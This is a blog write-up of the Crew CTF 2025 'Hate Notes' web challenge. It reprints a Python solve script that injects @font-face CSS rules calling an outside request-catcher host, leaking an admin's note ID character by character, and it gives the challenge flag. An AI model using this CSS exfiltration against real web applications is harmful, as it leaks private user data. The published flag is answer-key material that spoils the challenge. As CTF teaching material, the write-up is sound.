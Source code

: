+++
date = '2025-09-26T17:43:45+07:00'
title = 'Crew CTF 2025 - Hate Notes Write-up'
tags = ['Crew CTF 2025', 'CTFs']
description = 'Thinking outside the box gives you a clue (Love Notes), but do you have what it takes to solve it?'
draft = false

[cover]
  image = '/images/posts/crew-ctf-2025.webp'
  alt = 'Crew CTF 2025 - Hate Notes'
  caption = 'Crew CTF 2025 - Hate Notes'
  relative = false
+++

> **Room / Challenge:** Hate Notes (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** CrewCTF 2025
-   **Challenge:** Hate Notes (web)
-   **Target / URL:** `https://hate-notes.chal.crewc.tf/`
-   **Difficulty:** `Medium`
-   **Points:** `426`
-   **Tags:** web, xss, sqli, auth, enumeration
-   **Date:** `21-09-2025`

---

## Goal

We have to get access to the flag `crew{...}` in the admin's note which the `bot` can view.

## My Solution

Love Notes and Hate Notes share 99% of their code, but Love Notes had many more solutions than Hate Notes: [My Solution for Love Notes](./love-notes.md)

You can download the source code of Hate Notes for further investigation: [Source Code](./hate-notes.tar.gz)

Hate Notes blocks all XSS Scripting or any kind of Javascript works in all pages of their website included the `/api/notes/<NOTE_ID>` which we can take advantage of in the Love Notes.

There is other solution for this we will do CSS Exfiltration, in this challenge font exfiltration is widely used to solve. You can take a look at this `solve.py` from the author `bubu` of the challenge. [Link](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/hate-notes/solve.py)

```python
import json
import time
import random
import string
import requests

URL = "http://localhost:8000"

# Example:
#      f54dbf57-3317-4d6c-b903-bc56868fd728
EXFILTRATION = "https://player.requestcatcher.com/"
UID = ""

def register(user, password):
    r = requests.post(URL+'/api/auth/register', data={'email': user, 'password': password})


def login(user, password):
    r = requests.post(URL+'/api/auth/login', data={'email': user, 'password': password}, allow_redirects=False)
    return r.cookies["token"]


def first_payload(cookie):
    global UID
    payload = ""
    for letter in string.hexdigits[:16]:
        character = UID + letter
        payload += """
        @font-face {
          font-family: exfilFont"""+character+""";
          src: url(""" + EXFILTRATION +  """?id="""+character+""");
        }
        a[href^='/api/notes/""" + character + """'] {
          font-family: exfilFont"""+character+""";
        }
        """
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content':' '}).text)["id"]

def second_payload(id, cookie):
    payload = f"""<link rel=stylesheet href="/static/api/notes/{id}"/>"""
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content': ' '}).text)["id"]

def report(id, cookie):
    print(f"Reporting... {id}")
    r = requests.post(URL+'/report', cookies=cookie, data={'noteId': id})
    print(r.text)


USER = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
PASSWORD = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
print(f"USER {USER} -- PASSWORD {PASSWORD}")
register(USER, PASSWORD)
cookie = login(USER, PASSWORD)
while True:
    print(f"[X] UID: {UID}")
    id = first_payload({'token': cookie})
    id = second_payload(id, {'token': cookie})
    report(id, {'token': cookie})
    time.sleep(0.5)
    new_char = input("> ")
    UID += new_char
    if len(UID) in [8,13,18,23]:
        UID += '-'
```

In this method, we also use two note trick:

First note:

```
Title: @font-face (font exfiltration)
```

Second note:

```
Title: <link rel=stylesheet href="/static/api/notes/<FONT_EXFILTRATION_NOTE_ID>"/>
```

By this way, we can get the note id that contains the flag char by char. Then we can just simply type `/dashboard?reviewNote=<DISCOVERED_NOTE_ID>`.

You can get the flag `crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`.

## Lessons Learned

-   CSS Exfiltration
